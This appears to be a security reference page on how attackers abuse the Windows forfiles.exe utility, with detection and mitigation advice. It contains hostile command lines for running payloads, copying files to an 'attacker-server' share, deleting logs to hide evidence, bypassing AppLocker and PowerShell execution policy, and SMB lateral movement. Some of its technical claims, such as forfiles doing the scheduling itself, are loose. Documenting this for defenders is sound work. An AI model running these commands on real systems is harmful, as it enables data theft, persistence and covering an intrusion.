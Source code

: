 # forfiles.exe
## What is it?
*```forfiles.exe``` is a built-in Windows command-line utility used for selecting files and executing commands on them based on specific criteria such as date, size, or name pattern.*
*It is often used in batch files and scripts to automate file management tasks such as archiving, deleting, or processing files in a specified directory.*

## Legitimate Usage
- **File Management Automation** → Automate tasks like file cleanup, archiving, or copying.
- **Scheduled File Operations** → Combine with Task Scheduler to perform periodic operations on files (e.g., delete old files).
- **System Maintenance** → Delete old logs, backup files, or temporary files after a certain period.
- **Batch File Processing** → Execute commands on groups of files with specific patterns or properties.

## How to abuse it
- **Persistence** → Attackers can use ```forfiles.exe``` to schedule malicious scripts or programs to run at regular intervals.
- **Automated Exfiltration** → Attackers can automate the copying or deletion of sensitive files at scheduled times.
- **Bypassing Security Controls** → Use trusted Windows binaries to perform unauthorized actions without triggering security alerts.
- **Privilege Escalation** → Attackers can leverage ```forfiles.exe``` to execute malicious scripts that elevate privileges via scheduled tasks or specific file conditions.

## Example attacks
### 1. Persistence via Scheduled Task
*Attackers can use ```forfiles.exe``` to schedule the execution of a malicious script or payload.*
**Schedule Malicious Payload Execution**

```
forfiles /p C:\ /s /m *.exe /d +0 /c "cmd /c C:\path\to\malicious_payload.exe"
```

**Effect:**
- ```forfiles.exe``` runs a command (in this case, executing a malicious payload) on files that meet the specified criteria (e.g., all `.exe` files).
- The command can be scheduled to run periodically, ensuring persistence.

### 2. Exfiltration of Files via Scheduled Task
*Attackers can automate the copying of sensitive files to an external location for exfiltration.*
**Automate File Exfiltration**

```
forfiles /p C:\SensitiveData /s /m *.txt /c "cmd /c copy @file \attacker-server\exfil"
```

**Effect:**
- Automatically copies all `.txt` files from the target directory to a remote share controlled by the attacker.

### 3. File Deletion for Evidence Erasure
*```forfiles.exe``` can be used to schedule the deletion of sensitive files or logs to cover tracks.*
**Automate File Deletion**

```
forfiles /p C:\Windows\Temp /s /m *.log /c "cmd /c del @file"
```

**Effect:**
- Deletes all `.log` files in the `C:\Windows\Temp` directory, which may contain evidence of an attack.

### 4. Bypassing AppLocker and SRP via Scheduled Execution
*```forfiles.exe``` can be used to bypass AppLocker or Software Restriction Policies (SRP) by running executables in trusted directories.*
**Run Executable in Trusted Directory**

```
forfiles /p C:\Windows\System32 /s /m *.exe /c "cmd /c C:\Windows\System32\trusted_payload.exe"
```

**Effect:**
- Executes a payload from a whitelisted directory, bypassing security restrictions on unauthorized file execution.

### 5. Automating Lateral Movement
*Use ```forfiles.exe``` to move files to other systems or directories as part of a lateral movement attack.*
**Automate Lateral Movement via SMB**

```
forfiles /p C:\Users\ /s /m *.exe /c "cmd /c copy @file \192.168.1.50\C$\Windows\Temp"
```

**Effect:**
- Copies malicious executables from one machine to another via SMB, enabling lateral movement across the network.

### 6. Scheduled Execution of Malicious PowerShell Scripts
*```forfiles.exe``` can be used to automate the execution of malicious PowerShell scripts.*
**Run PowerShell Script via Forfiles**

```
forfiles /p C:\ /s /m *.ps1 /c "cmd /c powershell.exe -ExecutionPolicy Bypass -File C:\path\to\malicious_script.ps1"
```

**Effect:**
- Executes a PowerShell script on targeted systems, bypassing execution policy restrictions.

# Detection & Mitigation
## Detection Methods
**Monitor Scheduled Task Creation**
- **Event ID 4698 (Scheduled Task Created)** → Detect the creation of scheduled tasks that execute unusual commands, such as the use of ```forfiles.exe``` with suspicious arguments.
- **Look for Suspicious Command-Line Arguments** → Watch for ```forfiles.exe``` running commands that are not typically used for file management.

**Monitor File Deletions and Modifications**
- **Event ID 4663 (File Accessed)** → Track file deletions or modifications in directories commonly targeted for evidence erasure, such as `C:\Windows\Temp` or user profile directories.
- **Look for High Volume of File Operations** → Multiple file manipulations in a short period could indicate abuse of ```forfiles.exe``` for exfiltration or cleanup.

**Monitor Network Shares**
- **Event ID 5140 (File Share Access)** → Detect unusual file access over SMB, such as large volumes of files being copied to remote locations.

## Mitigation Strategies
- **Use Application Whitelisting** → Prevent the execution of unauthorized scripts and executables, particularly via tools like AppLocker or WDAC.
- **Monitor Scheduled Task Creation** → Set up alerts for any new scheduled task that executes commands involving ```forfiles.exe``` or other tools typically used in lateral movement or persistence.
- **Restrict File Access** → Limit write permissions for sensitive directories and files to trusted administrators only.
- **Control Network Access** → Restrict SMB and other remote access protocols to known and trusted IP addresses to prevent data exfiltration over the network.
- **File Integrity Monitoring** → Implement file integrity monitoring to detect unauthorized file changes or deletions, particularly in critical system directories.
